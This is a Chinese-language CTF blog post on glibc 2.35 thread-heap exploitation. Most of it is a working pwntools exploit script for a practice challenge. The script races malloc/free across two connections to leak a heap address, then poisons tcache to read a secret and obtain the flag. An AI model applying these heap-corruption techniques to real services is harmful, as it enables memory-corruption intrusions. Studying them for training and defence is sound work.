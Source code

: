```yaml
---
layout: post
tags: [pwn]
title: "glibc 2.35 thread-heap: arenas 利用手法"
author: wsxk
date: 2025-5-20
comments: true
---
```


- [0. glibc 2.35与 glibc 2.31的区别](#0-glibc-235与-glibc-231的区别)
- [1. arbitrary read](#1-arbitrary-read)
  - [1.1 高版本内核泄露thread stack的方法](#11-高版本内核泄露thread-stack的方法)
- [2. arbitrary write](#2-arbitrary-write)

`thread heap的利用手法多数都是依靠race condition来获取任意地址读写的能力，辅以一些常见的tips即可完成利用`<br>
**任意地址读写的说法其实也适用于其他的利用手法,从这个角度来思考安全问题是很有意义的**<br>
# 0. glibc 2.35与 glibc 2.31的区别<br>
最主要的区别在于移除了`free_hook`等之前非常好用的符号,已经`safe-linking`机制:<br>
参考这篇文章：[https://wsxk.github.io/safelinking/](https://wsxk.github.io/safelinking/)<br>
另外在调试glibc2.35可以发现：glibc2.35中的`tcache->key`部分也发生了修改，不再是`tcache_perthread_struct`了，而是真的随机的值.如下图所示：<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20250518105647.png)
总之，`tcache->key`部分已经没有了价值，但是`tcache->next`部分非常有用。<br>

# 1. arbitrary read<br>
**利用arbitrary read可以任意读取.bss段（没有添加PIE）、Thread heap、Thread stack(主要利用第一个线程的栈空间与libc没有间隔)中的数据（前提是知道地址）**<br>
race的利用难度主要在于调试（个人理解）<br>

```python
from pwn import *
import os

#binary_path = "/challenge/babyprime_level1.1"
binary_path = './babyprime_level1.1'
p = process(binary_path)
r1 = remote("127.0.0.1",1337)
r2 = remote("127.0.0.1",1337)

idx = 0
def leak_pthread_struct_addr(r1,r2):
    global idx
    while True:
        if os.fork() == 0:
            for _ in range(100000):
                r1.sendline(b"malloc %d scanf %d AAAAAAAABBBBBBBB free %d"%(idx,idx,idx))
            os.kill(os.getpid(),9)
        for _ in range(100000):
            r2.sendline(b"printf %d" % idx)
        os.wait()
        r1.clean()
        output = r2.clean()
        try:
            result = set(output.split(b"\n"))
            print(result)
            #pause()
            leak  = next(x for x in result if ((b"\x07" in x) and len(x)>=17))
            print(leak)
            leak = u64(leak[9:17].ljust(8,b"\x00"))
            if leak & 0xff != 0:
                print("leak error, try again!!!")
                continue
            break 
        except Exception as e:
            print(f"error:{e}")
            print(f"leak pthread_struct_addr try again!!!")
    idx += 1
    return leak

def arbitrary_read(r1,r2,addr):
    global idx
    r1.clean()
    r2.clean()
    r1.sendline(b"malloc %d malloc %d free %d" %(idx,idx+1,idx+1))
    while True:
        if os.fork() == 0:
            r1.sendline(b"free %d" %(idx))
            os.kill(os.getpid(),9)
        r2.sendline((b"scanf %d "% (idx) + p64(addr)+b"BBBBBBBB\n")*2000)
        os.wait()
        r1.sendline(b"malloc %d printf %d"%(idx,idx))
        r1.recvuntil(b"MESSAGE: ")
        output = r1.recvline().strip(b"\n")
        target = p64(addr).split(b"\x00")[0]
        if output == target:
            break
    r1.sendline(b"malloc %d"%(idx+1))
    r1.clean()
    r1.sendline(b"printf %d"% (idx+1))
    r1.recvuntil(b"MESSAGE: ")
    value = u64(r1.recvline().strip(b"\n").ljust(8,b"\x00"))
    return value

# gdb.attach(p,"continue\n")
# pause()
# r1.sendline(b"malloc 1")
# r1.sendline(b"scanf 1 AAAAAAAABBBBBBBB free 1")
# r2.sendline(b"malloc 2")
# r2.sendline(b"scanf 2 CCCCCCCCDDDDDDDD free 2")
# pause()
pthread_struct_addr = leak_pthread_struct_addr(r1,r2)<< 12
log.success(f"pthread_struct_addr: {hex(pthread_struct_addr)}")
secret = arbitrary_read(r1,r2,(pthread_struct_addr>>12)^0x405460)
log.success(f"secret: {hex(secret)}")
r1.sendline(b"send_flag")
r1.recvuntil(b"Secret: ")
r1.sendline(p64(secret))
output = r1.clean()
print(output)
p.interactive()
```
## 1.1 高版本内核泄露thread stack的方法<br>
时代在变化！<br>

# 2. arbitrary write<br>




<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>